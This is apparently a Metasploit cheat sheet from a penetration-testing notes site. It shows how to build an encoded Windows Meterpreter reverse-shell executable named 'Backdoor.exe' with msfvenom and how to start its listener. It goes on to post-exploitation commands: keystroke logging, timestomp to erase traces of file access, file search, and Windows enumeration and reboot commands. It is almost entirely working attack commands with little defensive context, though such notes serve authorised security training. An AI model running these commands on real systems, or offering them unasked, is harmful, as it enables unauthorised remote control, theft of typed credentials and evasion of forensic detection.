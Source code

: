 # Metasploit

Metasploit Framework is a tool for developing and executing exploit code against a remote target machine. Ruby based modular pentest platform that enable to write, test, and execute exploit code. Contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. Meterpreter is a Metasploit attack payload that provide an interactive shell that can be used to explore the target machine and execute code.

***

## Create the app PE&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Backdoor.exe
```

***

## Set up listener in metasploit

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST VALUE
show options
exploit -j -z # background job
```

***

## If the session catch

```
sessions -i 2    # connect to sessions 2
getuid           # get uid/user
sysinfo          # check the system info, OS, domain
ifconfig         # displays the victim machine's IP address, MAC address, and other information
pwd              # view current working directory  
ls               # list the files in the current working directories
cat [filename]   # read the content of a text file

```

***

## MACE

Modified, Accessed, Created, Entry (**MACE**) to change attributes of a file. While performing post-exploitation activities, an attacker tries to access files to read their contents. Upon doing so, the MACE attributes immediately change, which indicates to the file user or owner that someone has read or modified the information.

### Display attributes

To leave no trace of these MACE attributes, use the **timestomp** command to change the attributes as you wish after accessing a file.

```
timestomp [file] -v     # display the created, accessed, modified, and entry modified time
```

### Change attributes

```
timestomp [file] -m "DD/MM/YYYY HH:MM:SS"
```

> **-m**: Modified value
>
> **-a**: Accessed value
>
> **-c**: Created value
>
> **-e**: Entry value

***

## search

Can use **search** command to help locate files on the target machine. This type of cmd is capable of searching through the whole system or can be limited to specific folders.

```
search -f [file]
```

***

## Key-logging

Capture all keyboard input from the target system.

```
keyscan_start
```

dumps all captured keystrokes.

```
keyscan_dump
```

***

## idletime

Display the amount of time for which the user has been idle on the remote system.

```
idletime
```

***



## Operate in shell

### Windows

#### Retrieve the directory names with hidden attribute

```
dir /a:h
```

#### List all available services

```
sc queryex type=service state=all
```

#### List details about specific service, display current firewall state

```
netsh firewall show state
```

#### View current firewall settings in the target system

```
netsh firewall show config
```

#### View the details of installed software

```
wmic /node:"" product get name,version,vendor
```

#### Retrieve the processor's details

```
wmic cpu get
```

#### Retrieve login names and SIDs of the users

```
wmic useraccount get name,sid
```

#### Reboot the target system

```
wmic os where Primary='TRUE' reboot
```



<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>



